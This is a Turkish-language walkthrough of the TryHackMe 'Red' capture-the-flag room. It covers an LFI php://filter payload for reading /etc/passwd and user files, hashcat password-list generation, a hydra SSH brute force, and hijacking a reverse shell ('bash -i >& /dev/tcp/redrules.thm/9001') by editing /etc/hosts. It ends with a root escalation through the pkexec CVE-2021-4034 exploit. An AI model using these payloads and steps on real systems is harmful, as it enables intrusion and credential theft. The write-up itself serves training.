 ```yaml
---
title: 'TryHackMe | Red WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [lfi]
render_with_liquid: false
media_subpath: /images/tryhackme_red/
image:
  path: logo.webp
---
```


## Özet
Web uygulamasında bulunan "Local File Inclusion" zafiyetinden yararlanarak "blue" kullanıcısının dizinideki gizli dosyayı keşfedeceğiz. Bu dosyadaki yönergeleri takip ederek bir parola listesi oluşturacak ve bu parola listesini kullanarak SSH servisine deneme yanılma saldırısı yapacağız. Sonucunda elde ettiğimiz parolayı kullanarak SSH servisine bağlanacak ve yetki yükseltmek için bir takım kontroller yapacağız. Arka planda çalışan bağlantıyı fark ettikten sonra domain'in IP adresini değiştirecek ve bağlantıyı kendi makinemize yönlendireceğiz. Sonrada zafiyetli pkexec uygulamasını fark edecek ve internette bulduğumuz bir sömürü aracını kullanarak yetki yükselteceğiz.

### Makine hakkında ek bilgiler

- Makineye bağlanan kullanıcıların bağlantıları sonlandırılıp, parolaları değiştiriliyor.
- Odağımızı bozacak mesajlar ile karşılaşabiliriz.

## Keşif aşaması

### Nmap Taraması

```console
$ nmap -sV -sC -T4 10.10.35.115
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:74:1c:e0:f7:86:4d:69:46:f6:5b:4d:be:c3:9f:76 (RSA)
|   256 fb:84:73:da:6c:fe:b9:19:5a:6c:65:4d:d1:72:3b:b0 (ECDSA)
|_  256 5e:37:75:fc:b3:64:e2:d8:d6:bc:9a:e6:7e:60:4d:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Atlanta - Free business bootstrap template
|_Requested resource was /index.php?page=home.html
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Bulgular

- Web uygulaması hazır web teması içeriyor.
- Tema sayfaları index.php dosyasına gönderilen "page" parametresi ile sayfaya dahil ediliyor.

### 80 numaralı port'un incelenmesi

![](1.webp){: width="1200" height="600" }

Kullanılan hazır tema düzenlenmemiş gibi duruyor. "page" parametresinin aldığı değeri /etc/passwd ve türevleri olacak şekilde değiştirdiğimde her seferinde home.html sayfasına yönlendiriyor. Sistemde bulunan dosyaları görüntüleyebilmek için parametreye "php://filter/convert.base64-encode/resource=/etc/passwd" şeklinde bir değer girdiğimde ise base64 ile kodlanmış olarak dosya içeriğini okuyabiliyorum.

## Sömürü Aşaması

```console
$ curl -s http://10.10.35.115/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd | base64 -d                                                                          
root:x:0:0:root:/root:/bin/bash
...
blue:x:1000:1000:blue:/home/blue:/bin/bash
red:x:1001:1001::/home/red:/bin/bash
```

Sistemde root haricinde "red" ve "blue" olmak üzere iki kullanıcı var. "blue" kullanıcısının dizinindeki .bash_history isimli dosyayı kontrol ettiğimizde, aynı dizindeki .reminder dosyasında bulunan bir metni kullanarak hashcat ile belli kurallar dahilinde bir parola listesi oluşturduğunu görüyoruz.

```console
$ curl -s http://10.10.35.115/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.bash_history | base64 -d
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```

".reminder" isimli dosyanın içeriği aşağıdaki şekildedir.

```console
$ curl -s http://10.10.35.115/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.reminder | base64 -d
sup3r_p@s$w0rd!
```

Red kullanıcısının blue kullanıcısı için oluşturduğu parola listesini aynı komutu kullanarak oluşturalım.

```console
$ nano .reminder
$ hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```

Daha sonra elde ettiğimiz parola listesini kullanarak SSH servisine deneme yanılma saldırısı yapalım.

```console
$ hydra -l blue -P passlist.txt ssh://10.10.35.115
[DATA] attacking ssh://10.10.35.115:22/
[22][ssh] host: 10.10.35.115   login: blue   password: sup3r_p@s$w0sup3r_p@s$w0
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-20 04:28:00
```

Elimizdeki kullanıcı bilgilerini kullanarak SSH servisine bağlandıktan sonra bulunduğumuz dizinde ilk bayrağı görüyoruz.

```console
blue@red:~$ ls
flag1
blue@red:~$ cat flag1 
THM{***?}
```

Başta belirtiğim gibi ara ara bağlantı sonlandırılıyor ve parola değiştiriliyor. Aynı parola listesini kullanarak tekrar tekrar deneme yanılma saldırısı yapmanız gerekebilir.

## Yetki yükseltme

### Red

"ps aux" komutunu kullandığımızda arka planda red kullanıcısının redrules.thm adresinin 9001 portuna bağlandığını görüyoruz.

```console
blue@red:/var/backups$ ps aux
...
red         2557  0.0  0.0   6972  2496 ?        S    08:31   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
red         2582  0.0  0.0   6972  2692 ?        S    08:32   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
root        2593  0.0  0.0      0     0 ?        I    08:32   0:00 [kworker/u30:1-events_unbound]
red         2628  0.0  0.0   6972  2696 ?        S    08:33   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
```

/etc/hosts dosyasına domain ile beraber makinemizin IP adresini girdikten bir süre sonra red kullanıcısının adına bir bağlantı alıyoruz. Dosyayı temizlediği için bu işlemi bağlantı alana kadar bir kaç kez tekrar etmeniz gerekebilir.

![](2.webp){: width="1200" height="600" }

Bağlantı geldikten sonra kendi dizininden ikinci bayrağı alıyoruz.

```console
red@red:~$ cat flag2 
THM{***}
```

### Root

/home/red/.git/ dizini içerisinde "pkexec" adında bir dosya bulunuyor. Bu dosyaya SUID izni verilmiş ve zafiyetli bir sürümü kullanılıyor.

```console
red@red:~/.git$ ls -la
drwxr-x--- 2 red  red   4096 Aug 14  2022 .
drwxr-xr-x 4 root red   4096 Aug 17  2022 ..
-rwsr-xr-x 1 root root 31032 Aug 14  2022 pkexec
red@red:~/.git$ ./pkexec --version
pkexec version 0.105
```

Adını ve sürümünü internette arattıktan sonra [bu](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py) sayfa ile karşılaştım. Verilen python kodlarını düzenleyip kayıt ettikten sonra çalıştırdım ve başarıyla root haklarına sahip oldum.

```console
red@red:~/.git$ ls
CVE-2021-4034.py  pkexec
red@red:~/.git$ python3 CVE-2021-4034.py 
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
uid=0(root) gid=1001(red) groups=1001(red)
# cd /root
# ls
defense  flag3  snap
# cat flag3
THM{***}
```
